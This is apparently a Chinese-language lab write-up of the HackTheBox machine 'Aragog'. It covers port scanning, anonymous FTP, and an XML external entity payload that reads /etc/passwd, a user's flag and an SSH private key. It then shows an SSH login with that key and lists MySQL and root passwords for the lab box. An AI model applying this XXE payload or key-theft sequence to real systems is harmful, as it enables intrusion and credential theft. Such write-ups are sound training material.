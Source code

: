 ```yaml
---
title: Aragog（xml实体注入）
categories:
- XXE
tags:
- training
---
```


21，22，80

```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r--r--r--    1 ftp      ftp            86 Dec 21  2017 test.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ad:21:fb:50:16:d4:93:dc:b7:29:1f:4c:c2:61:16:48 (RSA)
|   256 2c:94:00:3c:57:2f:c2:49:77:24:aa:22:6a:43:7d:b1 (ECDSA)
|_  256 9a:ff:8b:e4:0e:98:70:52:29:68:0e:cc:a0:7d:5c:1f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
## 21匿名登陆

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-29-12/3.PNG)

test.txt
```
<details>
    <subnet_mask>255.255.255.192</subnet_mask>
    <test></test>
</details>
```
searchsploit vsftpd

3.0.3没有对应exp

## 80

Apache2 Ubuntu Default Page

```
gobuster -u http://10.10.10.78 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
没有发现任何东西
---
searchsploit apache 2.4
searchsploit -m exploits/linux/webapps/42745.py
python3 42745.py -h
python3 42745.py -u 10.10.10.78 -a
[ok] 10.10.10.78: 'OPTIONS,GET,HEAD,POST'

```
除了21端口，看起来是一个很“干净”的系统，找不到attack vector

## writeup
http://10.10.10.78/hosts.php
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-29-12/4.PNG)

There are 4294967294 possible hosts for 

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-29-12/6.PNG)

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-29-12/5.PNG)

发现服务器解析了xml，将子网掩码转换为了主机台数。

参考资料： [owasp-xxe](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing)

xml外部实体注入攻击是解析xml输入的时候产生的。

当xml输入包含一个对外部实体的引用，脆弱的xml解析器处理xml注入的时候，就发生了攻击。

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE details [
<!ELEMENT subnet_mask ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>

```
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-29-12/7.PNG)
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-29-12/8.PNG)

## info
获得linux用户信息。
```
florian:x:1000:1000:florian,,,:/home/florian:/bin/bash
cliff:x:1001:1001::/home/cliff:/bin/bash

通过替换上述payload关键字“file:///home/florian/user.txt”，获得flag
file:///home/florian/.ssh/id_rsa，获得登陆私钥

ssh -i id_rsa florian@10.10.10.78
```
## 提权
对二进制文件利用。

查看web目录，/var/www/html，发现一个wordpress网页程序。

访问http://10.10.10.78/dev_wiki，burp抓包，配置hosts。

`echo 10.10.10.78 aragog >> /etc/hosts`

访问http://aragog/dev_wiki
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-29-12/9.PNG)

```
mysql -u root -p
$@y6CHJ^$#5c37j$#6h

show databases;
use wp_wiki;
show tables;
select * from wp_users;
Administrator | $P$B3FUuIdSDW0IaIc4vsjj.NzJDkiscu. 
获取了一串hash值，尝试在线解密失败
```

/usr/bin/whoopsie是一个二进制可执行文件，通过程序的利用，获得su/root的密码

su/!KRgYs(JFO!&MTr)lf

有空再研究吧，睡觉~~


